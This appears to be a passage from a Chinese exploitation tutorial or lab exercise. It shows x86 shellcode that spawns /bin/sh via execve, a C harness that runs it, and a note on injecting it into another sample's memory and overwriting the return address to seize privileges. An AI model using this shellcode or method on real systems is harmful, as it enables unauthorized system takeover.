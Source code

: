 sample9.c的代码：
```
unsigned char shellcode[] = {
    0x31, 0xc0,                      // xor %eax, %eax
    0x50,                            // push %eax
    0x89, 0xe0,                      // mov %esp, %eax
    0x83, 0xe8, 0x10,                // sub $0x10, %eax
    0x50,                            // push %eax
    0x89, 0xe3,                      // mov %esp, %ebx
    0x31, 0xc0,                      // xor %eax, %eax
    0x50,                            // push %eax
    0x68, 0x2f, 0x2f, 0x73, 0x68,    // push $0x68732f2f
    0x68, 0x2f, 0x62, 0x69, 0x6e,    // push $0x6e69622f
    0x89, 0xe2,                      // mov %esp, %edx
    0x31, 0xc0,                      // xor %eax, %eax
    0x50,                            // push %eax
    0x53,                            // push %ebx
    0x52,                            // push %edx
    0x50,                            // push %eax
    0xb0, 0x3b,                      // mov $0x3b, %al
    0xcd, 0x80,                      // int $0x80
};

int main(void)
{
    void (*p)(void);
    p = (void(*)())shellcode;
    p();
    return 0;
}
```

![Alt text](./1489145641910.png)

shellcode完成，可在`exploit.py`使用

将这段代码插入到sample3的内存空间，然后将返回地址改为shellcode的起始地址，就可以夺取系统权限。


